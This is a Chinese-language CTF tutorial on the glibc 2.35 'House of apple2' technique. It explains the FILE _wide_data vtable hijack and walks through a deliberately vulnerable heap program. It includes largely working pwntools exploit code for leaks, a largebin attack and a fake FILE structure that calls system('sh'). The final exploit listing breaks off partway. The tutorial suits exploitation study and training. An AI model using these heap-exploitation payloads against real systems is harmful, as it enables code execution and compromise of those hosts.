# 高效IO攻击利用学习之House of apple2超详解-先知社区

> **来源**: https://xz.aliyun.com/news/16212  
> **文章ID**: 16212

---

# 高效IO利用方法总结--House of apple2

**House of apple**系列是有山海关的大佬Roderick开发的IO利用方式，统共有apple1,apple2,apple3三种调用方式。

这篇文章我们主要讲讲apple2这一利用方式

## 背景知识：

在libc2.35及以后，glibc将许多的hook都给移除了,包括但不限于**malloc\_hook**,**free\_hook**等，这也是为什么2.35称为pwn的寒冬，低版本的许多利用方式几乎都失效了。到了2.35及以后，堆利用便离不开对 \_IO\_FILE 的伪造和对 IO 流的劫持

## 利用条件：

house of apple2可以说是高版本中所需利用条件最少的攻击方式

1. 能够刷新IO流，换言之就是从main函数返回，或者从exit函数退出
2. 能够泄露libc基址和heap地址
3. 使用一次largebin attack既可

只用一次largebin attack在高版本的利用中是相当少见的，这也意味着house of apple2可以在更多的限制下来展开攻击

## 利用思路：

```
pwndbg> p *_IO_list_all
$1 = {
  file = {
    _flags = -72540026,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x0,
    _IO_write_end = 0x0,
    _IO_buf_base = 0x0,
    _IO_buf_end = 0x0,
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7e1b780 <_IO_2_1_stdout_>,
    _fileno = 2,
    _flags2 = 0,
    _old_offset = -1,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x7ffff7e1ca60 <_IO_stdfile_2_lock>,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x7ffff7e1a8a0 <_IO_wide_data_2>,#这是我们需要劫持的成员
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7e17600 <_IO_file_jumps>
}
```

house of apple2主要是通过伪造FILE结构体来完成攻击，而在2.24以后的glibc中，FILE结构体中的Vtable指针不能被劫持到任意地址，会有一个IO\_validate\_vtable函数对其指向的地址进行检测，下面是它的源码

```
/* Perform vtable pointer validation.  If validation fails, terminate
   the process.  */
static inline const struct _IO_jump_t *
IO_validate_vtable (const struct _IO_jump_t *vtable)
{
  /* Fast path: The vtable pointer is within the __libc_IO_vtables
     section.  */
  uintptr_t section_length = __stop___libc_IO_vtables - __start___libc_IO_vtables;
  const char *ptr = (const char *) vtable;
  uintptr_t offset = ptr - __start___libc_IO_vtables;
  if (__glibc_unlikely (offset >= section_length))
    /* The vtable pointer is not in the expected section.  Use the
       slow path, which will terminate the process if necessary.  */
    _IO_vtable_check ();
  return vtable;
}

```

而house of apple2主要针对的是\_IO\_FILE中的\_\_wide\_data成员，\_wide\_data指向的结构体是一个和FILE结构体十分相像的wide\_data结构体，下面是他的内容

```
pwndbg> p _IO_wide_data_2
$2 = {
  _IO_read_ptr = 0x0,
  _IO_read_end = 0x0,
  _IO_read_base = 0x0,
  _IO_write_base = 0x0,
  _IO_write_ptr = 0x0,
  _IO_write_end = 0x0,
  _IO_buf_base = 0x0,
  _IO_buf_end = 0x0,
  _IO_save_base = 0x0,
  _IO_backup_base = 0x0,
  _IO_save_end = 0x0,
  _IO_state = {
    __count = 0,
    __value = {
      __wch = 0,
      __wchb = "\000\000\000"
    }
  },
  _IO_last_state = {
    __count = 0,
    __value = {
      __wch = 0,
      __wchb = "\000\000\000"
    }
  },
  _codecvt = {
    __cd_in = {
      step = 0x0,
      step_data = {
        __outbuf = 0x0,
        __outbufend = 0x0,
        __flags = 0,
        __invocation_counter = 0,
        __internal_use = 0,
        __statep = 0x0,
        __state = {
          __count = 0,
          __value = {
            __wch = 0,
            __wchb = "\000\000\000"
          }
        }
      }
    },
    __cd_out = {
      step = 0x0,
      step_data = {
        __outbuf = 0x0,
        __outbufend = 0x0,
        __flags = 0,
        __invocation_counter = 0,
        __internal_use = 0,
        __statep = 0x0,
        __state = {
          __count = 0,
          __value = {
            __wch = 0,
            __wchb = "\000\000\000"
          }
        }
      }
    }
  },
  _shortbuf = L"",
  _wide_vtable = 0x7ffff7e170c0 <_IO_wfile_jumps>
}
```

同样具有一个vtable指针去指向一个虚表，而这个vtable指针所指向的内容是没有检测的，这意味着我们可以把它劫持到我们伪造的虚表，从而控制执行流

## 调用链介绍-\_IO\_wfile\_overflow

下面是我们可以开展攻击的一条调用链

```
_IO_wfile_overflow --> _IO_wdoallocbuf --> _IO_WDOALLOCATE
```

下面我们介绍一下这条调用链的由来

在程序执行exit退出时，会刷新FILE结构体里面的所有内容


在刷新FILE结构体的时候会执行执行**\_IO\_flush\_all\_lockp**函数

在这个过程中会调用到**\_IO\_wfile\_overflow**函数


而在调用\_IO\_wfile\_overflow函数的时候，会调用到**IO\_wdoallocbuf**函数，我们来看看这个函数的源码

```
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)//
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
             fp->_wide_data->_shortbuf + 1, 0);
}
libc_hidden_def (_IO_wdoallocbuf)
```

里面就会执行到\_IO\_WDOALLOCATE函数，而这个函数就是我们要劫持的函数

## 总结

1. 利用largebin attack向IO\_list\_all里面写入一个可控的堆地址
2. 在这个堆块里面同时伪造一个\_IO\_list\_all结构体和IO\_wide\_data结构体，以及他们对应的vtable指针
3. \_IO\_list\_all结构体的vtable指针指向 \_IO\_wfile\_jumps来绕过检查，而 \_wide\_data的结构体指向我们伪造的虚表即可

关于需要绕过的检查，在Roderick师傅的原帖可见，介绍的十分的详细，这里不过多赘述，有需要注意的点会在例题中详细介绍，膜拜一下Roderick师傅

[[原创] House of apple 一种新的glibc中IO攻击方法 (2)-Pwn-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-273832.htm)

## 例题讲解

```
ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.8) 2.35
Copyright (C) 2022 自由软件基金会。
这是自由软件；复制本软件需满足的条件请参见源代码。本软件不提供任何
品质保证；甚至不保证适销性或是适用于某种特定用途。
由 Roland McGrath 和 Ulrich Drepper 编写。
```

下面是例题的源码，编译的版本是2.35，libc版本是**Ubuntu GLIBC 2.35-0ubuntu3.8**

```
#include<stdio.h> 
#include <unistd.h> 
#define num 80
void *chunk_list[num];
int chunk_size[num];

void init()
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}

void menu()
{
    puts("1.add");
    puts("2.edit");
    puts("3.show");
    puts("4.delete");
    puts("5.exit");
    puts("Your choice:");
}


int add()
{
    int index,size;
    puts("index:");
    scanf("%d",&index);
    puts("Size:");
    scanf("%d",&size);
    chunk_list[index] = malloc(size);
    chunk_size[index] = size;
}

int edit()
{
    int size;
    int index;
    puts("index:");
    scanf("%d",&index);
    puts("size:");
    scanf("%d",&size);
    puts("context: ");
    read(0,chunk_list[index],size);
}

int delete()
{
    int index;
    puts("index:");
    scanf("%d",&index);
    free(chunk_list[index]);
}

int show()
{
    int index;
    puts("index:");
    scanf("%d",&index);
    puts("context: ");
    puts(chunk_list[index]);
}


int main()
{
    int choice;
    init();
    while(1){
        menu();
        scanf("%d",&choice);
        if(choice==5){
            exit(0);
        }
        else if(choice==1){
            add();
        }
        else if(choice==2){
            delete();
        }
        else if(choice==3){
            edit();
        }
        else if(choice==4){
            show();
        }
        }
    }
}
```

为了方便调试，存在堆溢出，uaf等漏洞

我们跟着前面介绍的利用思路，一步一步的走

### 泄露地址

我们首先需要泄露libc地址和heap地址，在有uaf和堆溢出漏洞的前提下，这十分的容易

```
ogs=[0xebc81,0xebc85,0xebc88,0xebce2]
add(0,0x440)
add(1,0x10)
add(2,0x430)
add(3,0x10)
dele(0)
add(4,0x460)
#dbg()
show(0)
p.recv(10)
libc_base=l64()-0x21b0e0
IO_list_all=libc_base+libc.sym['_IO_list_all']
system=libc_base+libc.sym['system']
_IO_stdfile_2_lock=libc_base+0x21ca60
og=libc_base+ogs[0]
edit(0,0x100,b'a'*0x10)
show(0)
ru(b'a'*0x10)
heap_base=ll64(3)-0x290

```

由于largebin里面同时存在libc地址和heap地址，所以我们直接构造一个largebin出来，来泄露两种地址



### 写地址到\_IO\_list\_all

```
edit(0,0x100,p64(libc_base+0x21b0e0)*2)
dele(2)
edit(0,0x100,p64(0)*3+p64(IO_list_all-0x20))
add(5,0x470)
dbg()
```



在我们覆盖chunk0的bk\_nextsize指针为 IO\_list\_all-0x20之后，触发largebin attack的话，就能把chunk2的地址写到IO\_list\_all-0x20上，从而让chunk2整个堆块变成我们伪造的\_IO\_FILE结构体



可以看到这个结构体已经变成了我们的堆块内容

### 伪造IO

```
file_addr=heap_base+0x700
IO_wide_data_addr=file_addr
wide_vtable_addr=file_addr+0xe8-0x68
fake_io = b""
fake_io += p64(0)  # _IO_read_end
fake_io += p64(0)  # _IO_read_base
fake_io += p64(0)  # _IO_write_base
fake_io += p64(1)  # _IO_write_ptr
fake_io += p64(0)  # _IO_write_end
fake_io += p64(0)  # _IO_buf_base;
fake_io += p64(0)  # _IO_buf_end should usually be (_IO_buf_base + 1)
fake_io += p64(0)   # _IO_save_base 
fake_io += p64(0)*3   # from _IO_backup_base to _markers
fake_io += p64(0)  # the FILE chain ptr
fake_io += p32(2)  # _fileno for stderr is 2
fake_io += p32(0)  # _flags2, usually 0
fake_io += p64(0xFFFFFFFFFFFFFFFF)  # _old_offset, -1
fake_io += p16(0)  # _cur_column
fake_io += b"\x00"  # _vtable_offset
fake_io += b"\n"  # _shortbuf[1]
fake_io += p32(0)  # padding
fake_io += p64(_IO_stdfile_2_lock)  # _IO_stdfile_1_lock
fake_io += p64(0xFFFFFFFFFFFFFFFF)  # _offset, -1
fake_io += p64(0)  # _codecvt, usually 0
fake_io += p64(IO_wide_data_addr)  # _IO_wide_data_1
fake_io += p64(0) * 3  # from _freeres_list to __pad5
fake_io += p32(0xFFFFFFFF)  # _mode, usually -1
fake_io += b"\x00" * 19  # _unused2
fake_io = fake_io.ljust(0xc8, b'\x00')  # adjust to vtable
fake_io += p64(libc_base+libc.sym['_IO_wfile_jumps'])  # _IO_list_all fake vtable
fake_io += p64(wide_vtable_addr)
fake_io += p64(system)
```

伪造IO是house of apple2的难点所在，我们着重分析一下第25行和第30,31,32行的伪造

25行：

我们之前提到过，为了方便，我们是将这个堆块同时给伪造成 IO\_FILE结构体和 IO\_wide\_data结构体，而wide\_data成员指向的就是 \_IO\_wide\_data结构体的位置，所以我们把它构造到file\_addr即可

30行

这个是我们伪造的用于绕过vtable检测的同时调用\_\_doallocate的，不用过多在意，记住即可

31行

这个是我们伪造的 \_IO\_wide\_data结构体的vtable指针，他决定了我们会调用哪里的函数，我们用gdb调试看看


而他指向的是我们伪造的虚表，这个虚表的类型是 \_IO\_jump\_t，我们来看看伪造的虚表结构



此时我们写入的system正好处于\_\_doallocate的位置，我们来看看他的地址



处于0x4047e8位置，是vtable指针所指向位置的+0x68偏移处，但重要的是，我们是先**确定的system函数的位置**是0x4047e8的，因为伪造的IO中，system函数所处的地址正好是file\_addr+0xe8，所以我们的\_wide\_data\_vtable要指向file\_addr+0xe8-0x68，

32行

这一个位置就是我们要调用的函数，你要执行什么就在这里放什么

### getshell

最后构造完IO之后就是getshell了，控制执行流的位置处，如果有符合条件的one\_gadget的话，直接覆盖即可

如果没有的话，我们就要想办法执行system("/bin/sh")了，或者是调用栈迁移实现orw

### 调用system("/bin/sh")详解

system函数已经能够执行了，下一步就是找到这个函数的参数位置，我们gdb看看



在调用\_IO\_wfile\_overflow之前，可以看到有把r15赋值给rdi的操作，我们往上找找，对于r15的赋值


可以看到对于r15的赋值



可以看到，就是把我们伪造的\_IO\_list\_all的头部赋值给了r15,从而后面赋值给rdi，所以我们可以通过堆溢出漏洞，来给file\_addr写入sh相关的字符


在执行system之前，会对al和8进行&操作，同时还有ah和8进行&操作

为了让检测通过，我们可以输入一个空格，空格的ASCII是0x20，和8进行&的结果正好是0,s字符的ASCII是0x73，和8的&结果正好也是0，由此可以通过检测，执行system("sh")，当然，可以多输入几个空格来绕过检测

下面我们来看看调用过程

调用\_IO\_flush\_all\_lockp刷新所有的内容



调用\_IO\_wfile\_overflow，参数为sh



调用\_IO\_wdoallocbuf，rdi保持为sh


调用system，参数为sh



getshell



### EXP

```
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
fn='./test'
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
eir = 0
if eir == 1:
    p=remote("",)
elif eir == 0:
    p=process(fn)
elf=ELF(fn)

def open_gdb_terminal():
    pid = p.pid
    gdb_cmd = f"gdb -ex 'attach {pid}' -ex 'set height 0' -ex 'set width 0'"
    subprocess.Popen(["gnome-terminal", "--geometry=120x64+0+0", "--", "bash", "-c", f"{gdb_cmd}; exec bash"])

def dbg():
    open_gdb_terminal()
    pause()


sa = lambda s,n : p.sendafter(s,n)
sla = lambda s,n : p.sendlineafter(s,n)
sl = lambda s : p.sendline(s)
sd = lambda s : p.send(s)
rc = lambda n : p.recv(n)
ru = lambda s : p.recvuntil(s)
ita = lambda : p.interactive()
l64 = lambda : u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
ll64 = lambda s : u64(p.recv(s).ljust(8,b'\x00'))
pt = lambda s : print("leak----->",hex(s))

def menu(choice):
    sla("Your choice:\n",str(choice))
def add(index,size):
    menu(1)
    sla("index:\n",str(index))
    sla("Size:\n",str(size))
def dele(index):
    menu(2)
    sla("index:\n",str(index))

def edit(index,size,content):
    menu(3)
    sla("index:\n",str(index))
    sla("size:\n",str(size))
    sa("context: \n",content)

def show(index):
    menu(4)
    sla("index:\n",str(index))

def ex1t():
    menu(5)


ogs=[0xebc81,0xebc85,0xebc88,0xebce2]
add(0,0x440)
add(1,0x10)
add(2,0x430)
add(3,0x10)
dele(0)
add(4,0x460)
show(0)
p.recv(10)
libc_base=l64()-0x21b0e0
IO_list_all=libc_base+libc.sym['_IO_list_all']
system=libc_base+libc.sym['system']
_IO_stdfile_2_lock=libc_base+0x21ca60
og=libc_base+ogs[0]
edit(0,0x100,b'a'*0x10)
show(0)
ru(b'a'*0x10)
heap_base=ll64(3)-0x290
edit(0,0x100,p64(libc_base+0x21b0e0)*2)
dele(2)
edit(0,0x100,p64(0)*3+p64(IO_list_all-0x20))
add(5,0x470)
file_addr=heap_base+0x700
IO_wide_data_addr=file_addr
wide_vtable_addr=file_addr+0xe8-0x68
fake_io = b""
fake_io += p64(0)  # _IO_read_end
fake_io += p64(0)  # _IO_read_base
fake_io += p64(0)  # _IO_write_base
fake_io += p64(1)  # _IO_write_ptr
fake_io += p64(0)  # _IO_write_end
fake_io += p64(0)  # _IO_buf_base;
fake_io += p64(0)  # _IO_buf_end should usually be (_IO_buf_base + 1)
fake_io += p64(0) * 4  # from _IO_save_base to _markers
fake_io += p64(0)  # the FILE chain ptr
fake_io += p32(2)  # _fileno for stderr is 2
fake_io += p32(0)  # _flags2, usually 0
fake_io += p64(0xFFFFFFFFFFFFFFFF)  # _old_offset, -1
fake_io += p16(0)  # _cur_column
fake_io += b"\x00"  # _vtable_offset
fake_io += b"\n"  # _shortbuf[1]
fake_io += p32(0)  # padding
fake_io += p64(_IO_stdfile_2_lock)  # _IO_stdfile_1_lock
fake_io += p64(0xFFFFFFFFFFFFFFFF)  # _offset, -1
fake_io += p64(0)  # _codecvt, usually 0
fake_io += p64(IO_wide_data_addr)  # _IO_wide_data_1
fake_io += p64(0) * 3  # from _freeres_list to __pad5
fake_io += p32(0xFFFFFFFF)  # _mode, usually -1
fake_io += b"\x00" * 19  # _unused2
